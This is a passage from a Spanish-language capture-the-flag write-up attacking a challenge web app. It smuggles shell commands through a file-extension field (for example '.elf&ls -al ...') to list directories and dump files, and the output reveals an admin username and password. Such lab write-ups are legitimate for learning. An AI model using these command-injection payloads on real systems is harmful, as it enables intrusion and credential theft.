 Sin éxito todas ellas. Trato también de crear un archivo usando como extensión

```
.elf&echo hola>hola.php
```

Sin éxito tampoco.

Tras varias pruebas... bueno, más que varias, un montón, obtengo información que me puede ser útil.

Contenido de la carpeta anterior, `/home/malwareadm/sites/proteus_site/web`

```
Usamos como extensión .elf&ls -al $(dirname `pwd`)

total 52
drwxr-xr-x 9 malwareadm malwareadm 4096 May 10 08:30 .
drwxr-xr-x 4 malwareadm malwareadm 4096 May 15 14:43 ..
drwxr-xr-x 2 malwareadm malwareadm 4096 May 2 14:08 cfg
-rwxr-xr-x 1 malwareadm malwareadm 745 May 2 16:38 composer.json
-rw-r--r-- 1 malwareadm malwareadm 11175 May 2 16:38 composer.lock
drwxr-xr-x 3 malwareadm malwareadm 4096 May 2 14:04 lib
drwxrwxrwx 2 malwareadm malwareadm 4096 May 10 08:10 logs
drwxr-xr-x 3 malwareadm malwareadm 4096 May 2 14:04 public
drwxr-xr-x 2 malwareadm malwareadm 4096 May 4 19:26 routes
drwxr-xr-x 5 malwareadm malwareadm 4096 May 4 20:37 templates
drwxr-xr-x 8 malwareadm malwareadm 4096 May 2 16:38 vendor
```

Contenido íntegro de la carpeta  `/home/malwareadm/sites/proteus_site/` incluyendo subcarpetas

```
Usamos como extensión .elf&find $(dirname $(dirname `pwd`))

...
/home/malwareadm/sites/proteus_site
/home/malwareadm/sites/proteus_site/admin_login_request.js
/home/malwareadm/sites/proteus_site/PROTEUS_INSTALL
/home/malwareadm/sites/proteus_site/db
/home/malwareadm/sites/proteus_site/admin_login_logger
...
```

Como vemos que hay varios archivos que incluyen la palabra *admin*, vamos a buscar todos:

```
Usamos como extensión .elf&find $(dirname $(dirname `pwd`)) -name *admin*

/home/malwareadm/sites/proteus_site/admin_login_request.js
/home/malwareadm/sites/proteus_site/admin_login_logger
/home/malwareadm/sites/proteus_site/web/templates/admin
```

Mostramos el contenido de dichos archivos:

```
Usamos como extensión .elf&for d in $(find $(dirname $(dirname `pwd`)) -maxdepth 2 -name *admin*); do strings $d; done

// THIS IS JUST USED TO IMPERSONATE AN ADMIN FOR THE CHALLENGE
var username = 'malwareadm';
var pwd = 'q-L%40X%21%7Bl_%278%7C%29o%3FQ%2BTapahQ%3C_';
var webPage = require('webpage');
var page = webPage.create();
var postBody = 'username=' + username + '&password=' + pwd;
page.open('http://127.0.0.1/samples', 'post', postBody, function (status) {
  if (status !== 'success') {
    console.log('Unable to post!');
  } else {
    console.log(JSON.stringify({
```